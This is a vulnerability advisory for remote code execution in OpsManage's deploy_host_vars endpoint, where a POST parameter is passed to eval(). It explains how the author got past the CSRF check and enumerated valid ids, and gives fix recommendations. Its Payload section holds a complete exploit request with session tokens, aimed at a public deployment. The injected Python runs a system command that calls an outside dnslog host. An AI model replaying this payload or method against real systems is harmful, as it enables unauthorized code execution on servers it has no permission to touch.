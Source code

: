 # BUG_Author
YiLin Li

# Affected version
v3.0.1 ≤ OpsManage ≤ v3.0.5

# Vender
github.com/welliamcao/OpsManage

# Software
![image](https://github.com/user-attachments/assets/cf835272-cb75-49a8-abf4-ba187b6f9cf4)

# Vulnerability File
./apps/api/views/deploy_api.py

# Description
The **OpsManage Automated Management Platform** contains a remote code execution vulnerability. Attackers can bypass parameter validation, allowing OpsManage to remotely execute arbitrary Python code. 
This vulnerability exists in the file **./apps/api/views/deploy_api.py**. In the `deploy_host_vars()` function, when this handler receives an HTTP POST request, if the **`id`** parameter results in a non-empty SQL query, the **`host_vars`** variable will accept the parameters from the request, passing external data into the `eval()` function for execution, ultimately leading to the vulnerability.

## Status
Critical

## Code Analysis
In the latest version (v3.0.5), it is observed that the function `deploy_host_vars(request, id, format=None)` in the file **/apps/api/views/deploy_api.py** is an API endpoint that accepts both GET and POST requests.

The route for this handler consists of two parts, and the final complete route looks like this: `/api/host/vars/123/` (where 123 is the id).

**Part1：**
![image](https://github.com/user-attachments/assets/71e2d6ce-4398-4a86-825b-47a891f6b91f)

**Part2：**
![image](https://github.com/user-attachments/assets/0dee9673-6ac5-495b-b9bd-4c1d0cd91ad6)


In the first try..except block, the model Assets queries the **`id`** parameter to ensure that the **`id`** exists; otherwise, it will return a 404 page.
![image](https://github.com/user-attachments/assets/b15e8ce6-9e68-42b9-8dac-adadcd16ad1a)<br>
This check is easy to bypass, and I will explain the bypass method in **Trigger the vulnerability**.<br>

And then, when a POST request is made with the **`host_vars`** parameter, the variable **`host_vars`** will receive its value. The vulnerability is triggered at this point, as the value is then passed to `eval()` for execution as code.<br>
![image](https://github.com/user-attachments/assets/d291dfdb-184d-41d4-bba2-0a9713d6bd46)<br>

## Trigger the vulnerability
After deploying the environment locally, the process appears quite complex, making it difficult to reproduce the vulnerability. Fortunately, I discovered an official public deployment of the system, so the following process will be carried out on the public deployment.
![image](https://github.com/user-attachments/assets/73d30fae-db2b-4c68-892e-5baeb821aa79)<br>

Log in to the system using the demo account and open the user management interface. I have already added a low-privilege, login-only user named 'host' (with the password host123) using the demo account.
![image](https://github.com/user-attachments/assets/5276db9b-4640-4d43-999e-247adb50b1ad)<br>

Clicking the 🚫 icon on the right of the role shows the assigned permissions for that role. We can see that the 'host' user has no permissions assigned.
![image](https://github.com/user-attachments/assets/d1f3587d-1075-4d0a-b5f5-06faa21e70df)<br>

Log in to the system using **host:host123** and simultaneously capture the **csrftoken** from the `/login/` endpoint in BurpSuite.
![image](https://github.com/user-attachments/assets/0acf6bd4-a3ce-4ce5-bfec-2b8c0e50939b)<br>
Then, obtain the **sessionid** from any other requests and record them all.<br>

Since `/api/host/vars/123/` is a Django REST API endpoint, and OpsManage has CSRF filtering enabled by default, if you try to access it directly with the **csrftoken** from `/login/`, you will see the message **'CSRF token missing or incorrect.'**<br>
![image](https://github.com/user-attachments/assets/261670ec-4c8c-42f9-84de-8128d785e50b)<br>

I bypassed the middleware check by setting the **X-CSRFTOKEN** request header. Specifically, I set the value of **X-CSRFTOKEN** to match the **csrftoken** from the cookie.<br>
![image](https://github.com/user-attachments/assets/d09b3158-64e8-4e65-9682-70490797756d)<br>
It returned a 404 page, which means we have at least entered the endpoint's execution logic. <br>

To obtain a valid **`id`**, I used an enumeration method to check which **`id`** would return a different response.<br>
![image](https://github.com/user-attachments/assets/56710a11-2c0f-41fb-94fa-452f3867671d)<br>
Clearly, those are the ones.<br>

I used the `ping` command to verify the effect of command execution. After changing the **`id`** to **10** and adding the **`host_vars`** parameter with Python code, I sent the request.<br>
![image](https://github.com/user-attachments/assets/6582dcc8-2a14-45d6-a741-96e4ff462a04)<br>
In the DNS log, I can see that the domain was requested, which indicates that the code execution was successful.

# Payload
```
POST http://42.194.214.22:8000/api/host/vars/10/ HTTP/1.1
Host: 42.194.214.22:8000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 71
Origin: http://42.194.214.22:8000
DNT: 1
Connection: close
Referer: http://42.194.214.22:8000/login/
Cookie: csrftoken=KGkFpRkuCXci60JBgUI5nGxXcDIkifhrZBVP760X4zJtYi5H70kynu6bbiqzb036; sessionid=xodr9tlwkgteuqebiqg5gjrsmj7p02t1
Upgrade-Insecure-Requests: 1
Priority: u=0, i
X-CSRFTOKEN: KGkFpRkuCXci60JBgUI5nGxXcDIkifhrZBVP760X4zJtYi5H70kynu6bbiqzb036

host_vars=__import__('os').system('ping%20-c%201%201b4zxr.dnslog.cn')

```

## Fix Recommendations
1. Add permissions for endpoint **deploy_host_vars**
2. Filter the value of **`host_vars`** to prevent unexpected code execution.
